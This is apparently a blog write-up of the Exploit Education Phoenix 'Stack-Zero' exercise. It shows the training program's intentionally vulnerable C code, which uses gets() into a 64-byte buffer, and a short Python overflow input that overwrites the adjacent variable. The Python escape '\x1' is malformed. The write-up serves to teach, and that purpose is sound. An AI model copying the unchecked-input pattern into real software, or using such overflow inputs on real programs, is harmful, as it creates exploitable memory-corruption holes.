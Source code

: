 ```yaml
---
title: Exploit Education > Phoenix > Stack-Zero
date: '2021-09-20'
draft: false
--- 
```


Stack-Zero consists of the following source code:

````
/*
 * phoenix/stack-zero, by https://exploit.education
 *
 * The aim is to change the contents of the changeme variable.
 *
 * Scientists have recently discovered a previously unknown species of
 * kangaroos, approximately in the middle of Western Australia. These
 * kangaroos are remarkable, as their insanely powerful hind legs give them
 * the ability to jump higher than a one story house (which is approximately
 * 15 feet, or 4.5 metres), simply because houses can't can't jump.
 */

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int changeme;
  } locals;

  printf("%s\n", BANNER);

  locals.changeme = 0;
  gets(locals.buffer);

  if (locals.changeme != 0) {
    puts("Well done, the 'changeme' variable has been changed!");
  } else {
    puts(
        "Uh oh, 'changeme' has not yet been changed. Would you like to try "
        "again?");
  }

  exit(0);
}
````

Looking at the file, we can see that the code uses the vulnerable `gets` function. It copies all input from STDIN to the buffer without checking if the input's size first. If we provide a string that is larger than the size of the allocated buffer, we can overwrite what comes after it. Since `buffer` is of type `char[64]`, we can write 64 chars into stdin to 'pad' the input. After padding, we can then overwrite whatever comes after `buffer`, in this case `changeme`. Since writing and counting out 64 characters is a bit troublesome in `qemu`, we write a quick python file that does what we want.

``` 
# stack-zero.py

padding = '0' * 64
changeme = '\x1'

print(padding + changeme)
```

Now, since `stack-zero.c` wants its input via stdin and not as a command line argument, we pipe the input into it: `python3 stack-zero.py | ./stack-zero`. Doing this prints the message

```
> Well done, the 'changeme' variable has been changed!
```

meaning that we solved our first task!

